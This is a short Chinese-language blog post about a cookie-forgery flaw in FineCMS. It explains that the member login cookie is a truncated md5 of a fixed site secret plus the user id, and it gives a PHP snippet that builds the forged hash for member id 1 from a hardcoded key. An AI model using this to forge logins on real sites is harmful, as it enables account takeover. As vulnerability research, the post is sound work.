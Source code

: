 ---
layout: post
title:  "Finecms Cookie Forged"
date:   2017-03-13 15:04:55
comments: true
catego

##Finecms Cookie伪造



```text
/controllers/member/LoginController.php
```
看上去很容易被伪造只要知道 SITE_MEMBER_COOKIE 就行了

cookie表前缀+字符串 ，我通过github搜索发现字符串并不是随机生成的而是固定的值
```javascript

                  set_cookie('member_id', $member['id'], $time);

                    set_cookie('member_code', substr(md5(SITE_MEMBER_COOKIE . $member['id']), 5, 20), $time);
```
构造cookiehash
```javascript
<?php
$hash = substr(md5("2967e68d382902a"."1"), 5, 20);

echo $hash;
?>

```
